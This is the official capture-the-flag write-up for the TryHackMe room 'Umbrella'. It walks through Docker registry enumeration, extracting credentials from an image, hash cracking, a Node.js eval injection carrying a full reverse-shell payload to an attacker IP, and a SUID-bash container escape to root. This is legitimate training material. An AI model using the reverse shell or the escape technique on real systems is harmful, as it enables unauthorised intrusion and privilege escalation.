








# Official Writeup - Umbrella

## Introduction

The TryHackMe Room Umbrella is built around vulnerarbilities and misconfigurations related to containerized environments. As such learners may have to:

- interact with an insecure container registry
- analyze and extract information from docker images
- elevate privileges exploiting a container running as root ([idea](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount))

Apart from that the ctf also includes:

- basic enumeration
- querying a SQL database
- hashcracking
- exploiting an insecure webinterface

Some effort was put into making the room resemble a realistic scenario. For example the web application containers volume mount serves the purpose of logging events inside the application. Furthermore multiple user accounts exist for the web application and the learner will have to figure out (per trial and error) which one of them reused their password for ssh login to the machine.

The following paragraphs describe the intended killchain.

## Enumeration

```bash
# export IP=<IP>
sudo nmap -sV -sS -PN -vv -p- $IP
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
3306/tcp open  mysql   syn-ack ttl 62 MySQL 5.7.40
5000/tcp open  http    syn-ack ttl 62 Docker Registry (API: 2.0)
8080/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 4 services running on the remote host. It might be useful to check out whether we can anonymously log into the database, query the registry and take a look at the webpage.

The webpage presents us with a login screen which submits the credentials to the ``/auth`` endpoint. For now this does not prove helpfull.



Querying the registry reveals a repository with an uploaded image:

```bash
curl $IP:5000/v2/_catalog
# {"repositories":["umbrella/timetracking"]}

 curl $IP:5000/v2/umbrella/timetracking/tags/list
# {"name":"umbrella/timetracking","tags":["latest"]}
```

## Inspecting the image

Since the registry isn't using any tls certificates we first need to add an insecure registry entry to ``/etc/docker/daemon.json``:

```json
{
    "insecure-registries":["10.10.246.98:5000"]
}
```

and then restart the docker service. Now we can take a look at the image:

```bash
sudo service docker restart
sudo docker image inspect $IP:5000/umbrella/timetracking:latest
```

Scrolling down to the environment variable section we find some useful information:



Great, now we have access to the exposed mySQL database using:

- DB_PASS : Ng1-f3!Pe7-e5?Nf3xe5
- DB_USER : root
- DB_DATABASE : timetracking

## Extracting Credentials from the database

```bash
mysql -u root -p -h $IP 
```

We already know which database is used by the web application. Inside there is only one table containing user names and presumably password hashes.



Utilizing Hashcat:

```bash
hashcat -m 0 -a 0 "<hash>" /usr/share/wordlists/rockyou.txt  
```

we get:

|user|hash|pass|
|-----|-----|-----|
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 | Password1 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 | sunshine1 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | sandwich |

(get the reference ;))

## Getting 2 Shells

Since the user *claire-r* reused her password ``Password1`` for her system user account we can simply login and extract the user flag:

```bash
ssh claire-r@$IP
cat flag.txt
```



The claire-r user directory also contains the web applications source code and docker files. Taking a look at these gives us the following information:

- the local logs directory is mounted to the web application container (``docker-compose.yml``)
- the app makes use of an ``eval``-statement in line 71 when posting to the ``/time`` endpoint

In fact there are a couple of ways to find the ``eval``-vulnerability. One could either find it in the source code locally, the container image from registry or by questioning the *Pro Tip* after logging into the web application (using any one of the 4 user accounts extracted from the database):



Anyhow we can exploit this to spawn a reverse shell inside the web app container:

```bash
nc -lvnp 1234
```

replace the ip adress to your own and paste into time tracking form

```js
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("sh", []); var client = new net.Socket(); client.connect(1234, "xx.xx.xx.xx", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); });  return /a/;})()
```



## PrivEsc

The final step of this room is to exploit the mounted logs directory with the 2 shells we gathered

- local unprivileged shell
- containerized root shell

We can simply copy the bash binary into the logs directory inside the ssh session:

```bash
cp /bin/bash ./logs
```

and then change ownership and set the suid bit from within the container:

```bash
chown root /logs/bash
chmod 4777 /logs/bash
```



All that remains is to invoke the bash with the ``-p`` option, thereby not changing the effective user id:

```bash
./logs/bash -p
```

And now we have root and can simply pick up the remaining flag.




